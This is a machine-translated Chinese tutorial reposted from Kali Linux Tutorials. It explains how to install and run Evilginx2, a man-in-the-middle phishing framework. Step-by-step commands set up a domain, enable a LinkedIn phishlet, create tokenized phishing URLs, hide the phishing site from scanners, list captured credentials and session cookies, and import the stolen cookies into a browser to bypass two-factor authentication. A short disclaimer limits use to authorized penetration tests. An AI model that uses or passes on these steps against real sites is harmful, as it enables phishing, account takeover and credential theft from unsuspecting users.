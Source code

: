 # evil ginx 2–独立的 MITM 攻击框架，用于网络钓鱼登录凭据和会话 Cookies，允许绕过双因素身份验证

> 原文：<https://kalilinuxtutorials.com/evilginx2-mitm-attack/>

**Evilginx2** 是一个中间人攻击框架，用于钓鱼登录凭证和会话 cookies，从而允许绕过双因素身份验证保护。

该工具是 2017 年发布的 Evilginx 的继任者，该工具使用 nginx HTTP server 的自定义版本来提供中间人功能，以充当浏览器和钓鱼网站之间的代理。目前的版本完全是作为一个独立的应用程序在 GO 中编写的，它实现了自己的 HTTP 和 DNS 服务器，这使得它非常容易设置和使用。

## **eviginx 2 安装**

您可以为您的架构使用预编译的二进制包，也可以从源代码编译 **evilginx2** 。你将需要一个外部服务器来托管你的 **evilginx2** 安装。

Evilginx 在最基本的 Debian 8 VPS 上运行得非常好。

**也读作[imR0T——加密给你的 Whatsapp 联系人](https://kalilinuxtutorials.com/imr0t-encryption-whatsapp-contact/)**

#### **从源安装**

为了从源代码编译，请确保您已经安装了版本至少为 **1.10.0** 的 **GO** (从此处获取)并且`**$GOPATH**`环境变量设置正确(def。 **`$HOME/go`** )。

安装完成后，将此添加到您的`**~/.profile**`中，假设您在 **`/usr/local/go`** 中安装了 **GO** :

```
export GOPATH=$HOME/go
export PATH=$PATH:/usr/local/go/bin:$GOPATH/bin
```

然后用 **`source ~/.profiles`** 加载。

现在你应该准备好安装 **evilginx2** 了。请遵循以下说明:

```
sudo apt-get install git make
go get -u github.com/kgretzky/evilginx2
cd $GOPATH/src/github.com/kgretzky/evilginx2
make
```

您现在可以从本地目录运行 **evilginx2** ,如下所示:

```
sudo ./bin/evilginx -p ./phishlets/
```

或者全局安装:

```
sudo make install
sudo evilginx
```

以上说明也可用于将 **evilginx2** 更新至最新版本。

#### **用 Docker 安装**

您可以从 Docker 中启动 **evilginx2** 。首先构建容器:

```
docker build . -t evilginx2
```

然后，您可以运行容器:

```
docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2
```

Phishlets 在`/app/phishlets`被加载到容器中，该容器可以作为一个卷进行安装和配置。

#### **从预编译的二进制包安装**

从这里拿起你想要的包裹，放在你的箱子上。然后做:

```
unzip <package_name>.zip -d <package_name>
cd <package_name>
```

如果要进行系统范围的安装，请使用具有 root 权限的安装脚本:

```
chmod 700 ./install.sh
sudo ./install.sh
sudo evilginx
```

或者从当前目录启动 **evilginx2** (您还需要 root 权限):

```
chmod 700 ./evilginx
sudo ./evilginx
```

## **用途**

确保**`TCP 443`**`**TCP 80**`和`**UDP 53**`端口上没有服务监听。您可能需要关闭 apache 或 nginx 以及任何可能正在运行的用于解析 DNS 的服务。 **evilginx2** 会在启动时告诉你它是否无法打开这些端口上的监听套接字。

默认情况下， **evilginx2** 会在`**./phishlets/**`目录中查找网页小册子，之后在 **`/usr/share/evilginx/phishlets/`** 中查找。如果您想要指定一个自定义路径来加载网页仿冒网站，请在启动该工具时使用`**-p <phishlets_dir_path>**`参数。

```
Usage of ./evilginx:
  -debug
        Enable debug output
  -developer
        Enable developer mode (generates self-signed certificates for all hostnames)
  -p string
        Phishlets directory path
```

你应该看到 **evilginx2** 的标志，并提示输入命令。如果您想查看可用的命令或关于它们的更多详细信息，请键入 **`help`** 或 **`help <command>`** 。

## **入门**

要启动并运行，您需要首先做一些设置。

此时，我假设您已经注册了一个域(姑且称之为 **`yourdomain.com`** )，并且在您的域提供商的管理面板中设置了域名服务器(包括`ns1`和`ns2`)以指向您的服务器的 IP(例如 10.0.0.1):

```
ns1.yourdomain.com = 10.0.0.1
ns2.yourdomain.com = 10.0.0.1
```

使用以下命令设置服务器的域和 IP:

```
config domain yourdomain.com
config ip 10.0.0.1
```

现在，您可以设置想要使用的 phishlet。为了这个简短的指南，我们将使用一个 LinkedIn phishlet。为网页仿冒网站设置主机名(显然必须包含您的域名):

```
phishlets hostname linkedin my.phishing.hostname.yourdomain.com
```

现在您可以`enable`phish let，如果在本地没有找到您选择的主机名的证书，它将自动检索 LetsEncrypt SSL/TLS 证书:

```
phishlets enable linkedin
```

您的钓鱼网站现已上线。想想这个 URL，您希望受害者在成功登录后被重定向到该 URL，并获得如下钓鱼 URL(受害者将被重定向到`**https://www.google.com**`):

```
phishlets get-url linkedin https://www.google.com
```

正在运行的网页仿冒网站只会对标记化的链接做出响应，因此任何扫描您的主域的扫描器都将被重定向到指定为 **`config`** 下的 **`redirect_url`** 的 URL。如果你想隐藏你的网页仿冒网站，让它甚至对有效的令牌化网页仿冒网址都不作出响应，使用`**phishlet hide/unhide <phishlet>**`命令。

您可以使用以下工具监控捕获的凭据和会话 cookies:

```
sessions
```

要获得关于捕获会话的详细信息，使用会话 cookie 本身(它将以 JSON 格式打印在底部)，选择它的会话 ID:

```
sessions <id>
```

可以使用 EditThisCookie 扩展将捕获的会话 cookie 复制并导入到 Chrome 浏览器中。

如果你想让 **evilginx2** 在你退出服务器后继续运行，你应该在`screen`会话中运行它。

## **免责声明**

我们非常清楚 Evilginx 可能被用于邪恶的目的。这项工作只是演示了熟练的攻击者可以做什么。防御方有责任考虑此类攻击，并找到保护其用户免受此类网络钓鱼攻击的方法。Evilginx 应仅在合法的渗透测试任务中使用，并获得潜在相关方的书面许可。

[T2**贷项:古巴格雷茨基**](https://github.com/kgretzky/evilginx2)